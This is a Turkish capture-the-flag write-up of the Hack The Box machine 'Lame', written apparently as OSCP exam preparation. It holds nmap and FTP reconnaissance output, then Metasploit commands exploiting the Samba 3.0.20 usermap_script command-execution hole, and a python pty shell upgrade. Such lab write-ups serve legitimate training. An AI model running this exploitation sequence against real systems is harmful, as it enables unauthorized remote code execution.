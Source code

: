 # OSCP_Preparation

Makine IP: 10.129.86.76 

 Hemen nmap çalıştırıyorum ve bizi neler bekliyor görmek için sabırsızlanıyorum.

```console
Nmap -A 10.129.86.76  

Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-23 19:04 +03 

Nmap scan report for 10.129.86.76 (10.129.86.76) 

Host is up (0.062s latency). 

Not shown: 996 filtered ports 

PORT    STATE SERVICE     VERSION 

21/tcp  open  ftp         vsftpd 2.3.4 

|_ftp-anon: Anonymous FTP login allowed (FTP code 230) 

| ftp-syst:  

|   STAT:  

| FTP server status: 

|      Connected to 10.10.14.85 

|      Logged in as ftp 

|      TYPE: ASCII 

|      No session bandwidth limit 

|      Session timeout in seconds is 300 

|      Control connection is plain text 

|      Data connections will be plain text 

|      vsFTPd 2.3.4 - secure, fast, stable 

|_End of status 

22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0) 

| ssh-hostkey:  

|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA) 

|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA) 

139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP) 

445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP) 

Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port 

Aggressive OS guesses: OpenWrt White Russian 0.9 (Linux 2.4.30) (92%), Linux 2.6.23 (92%), Belkin N300 WAP (Linux 2.6.30) (92%), Control4 HC-300 home controller (92%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (92%), Dell Integrated Remote Access Controller (iDRAC5) (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Citrix XenServer 5.5 (Linux 2.6.18) (92%) 

No exact OS matches for host (test conditions non-ideal). 

Network Distance: 2 hops 

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel 

  

Host script results: 

|_clock-skew: mean: 2h30m39s, deviation: 3h32m11s, median: 36s 

| smb-os-discovery:  

|   OS: Unix (Samba 3.0.20-Debian) 

|   Computer name: lame 

|   NetBIOS computer name:  

|   Domain name: hackthebox.gr 

|   FQDN: lame.hackthebox.gr 

|_  System time: 2021-01-23T11:05:25-05:00 

| smb-security-mode:  

|   account_used: guest 

|   authentication_level: user 

|   challenge_response: supported 

|_  message_signing: disabled (dangerous, but default) 

|_smb2-time: Protocol negotiation failed (SMB2) 

  

TRACEROUTE (using port 21/tcp) 

HOP RTT      ADDRESS 

1   62.37 ms 10.10.14.1 (10.10.14.1) 

2   62.53 ms 10.129.86.76 (10.129.86.76) 

  

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . 

Nmap done: 1 IP address (1 host up) scanned in 163.15 seconds 
```
 

 
FTP’den girmeyi denedim. 
```console
tcp> open 

(to) 10.129.86.76  

Connected to 10.129.86.76. 

220 (vsFTPd 2.3.4) 

Name (10.129.86.76:naoumine): anonymous 

331 Please specify the password. 

Password: 

230 Login successful. 

Remote system type is UNIX. 

Using binary mode to transfer files. 

ftp> ls 

200 PORT command successful. Consider using PASV. 

150 Here comes the directory listing. 

226 Directory send OK. 

ftp> passive 

Passive mode on. 

ftp> cd /home 

550 Failed to change directory. 

```
 

PASV FTP, Dosya Aktarım Protokolü (FTP) bağlantılarını kurmak için alternatif bir moddur. Kısacası, bir FTP istemcisinin gelen bağlantılarını engelleyen güvenlik duvarı sorununu çözmektedir. Pasif FTP, bir güvenlik duvarının arkasındaki FTP istemcileri için tercih edilen bir FTP modudur. 

 

https://www.exploit-db.com/exploits/17491 - Bu versiyonda Command Execution açığı olduğu görülüyor. 

 
Ftp'den devam edemediğim için samba da ilgili versiyonda açık olup olmadığına bakıyorum. 
 

 
```console
msf6 > search samba 3.0.20 
```

![image](C:\Users\90532\Documents\OSCP_github\OSCP_Preparation\Assets\1.PNG)

Command Execution açıklığı olduğunu gördükten sonra exploitimi hazırlamaya başlıyorum.

  
```console
msf6 > use exploit/multi/samba/usermap_script 
```

![image](C:\Users\90532\Documents\OSCP_github\OSCP_Preparation\Assets\2.PNG)

 
```console
msf6 exploit(multi/samba/usermap_script) > set RPORT 445 
```
 Burada dikkat edilmesi gereken kısım port. Nmap ile elde ettiğimiz sonucu unutmadan devam ediyoruz.

Ve en sevilen kısım EXPLOİT ! Enter..
```console
msf6 exploit(multi/samba/usermap_script) > exploit 
```
![image](C:\Users\90532\Documents\OSCP_github\OSCP_Preparation\Assets\3.PNG)

Başarılı olduk. Şimdi TTY shell alalım işimiz kolay olsun.
  
```console
python -c 'import pty; pty.spawn("/bin/sh")' 
```

![image](C:\Users\90532\Documents\OSCP_github\OSCP_Preparation\Assets\4.PNG)


Hem user hem root flag'ini almış bulunuyoruz :)
 

 

 

